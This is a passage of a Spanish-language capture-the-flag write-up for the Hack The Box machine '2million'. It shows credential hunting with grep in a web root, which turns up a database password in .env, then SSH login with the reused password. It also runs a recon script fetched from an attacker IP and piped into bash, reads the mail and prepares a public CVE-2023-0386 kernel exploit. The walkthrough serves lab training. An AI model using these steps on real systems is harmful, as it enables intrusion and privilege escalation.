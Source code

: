 Accedemos como www-data
```bash
www-data@2million:/var/www/html$ ls /var/www/html
assets  controllers  css  Database.php  fonts  images  index.php  js  Router.php  views  VPN
```
Lo que suelo hacer cuando estoy en un directorio web, es buscar por la palabra password (grep recursivo case-insensitive)
```bash
www-data@2million:/var/www/html$ grep -ri "password"
.env:DB_PASSWORD=SuperDuperPass123
...
```
Por tanto ya podemos hacer ssh como admin 

```bash
$: ssh admin@2million.htb
admin@2million.htb's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.70-051570-generic x86_64)
...
admin@2million:~$
```
Si subo mi herramienta de reconocimiento [] encuentro que hay un mail

```bash
admin@2million:~$ curl -s 10.10.15.20/lin_info_xii.sh | bash
  >  Mails
/var/mail/.
/var/mail/..
/var/mail/admin
admin@2million:~$ cat /var/mail/*    
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also up
grade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in O
verlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```
Nos habla de una vulnerabilidad en el kernel relacionado con OverlayFS / FUSE. Buscandolo en internet doy con  el CVE-2023-0386.
En este [repo](https://github.com/sxlmnwb/CVE-2023-0386) dicen como explotarlo . Lo clono a mi kali

```bash
$: git clone https://github.com/sxlmnwb/CVE-2023-0386 &>/dev/null
$: tar -zcvf 2023.tar.gz CVE-2023-0386
```
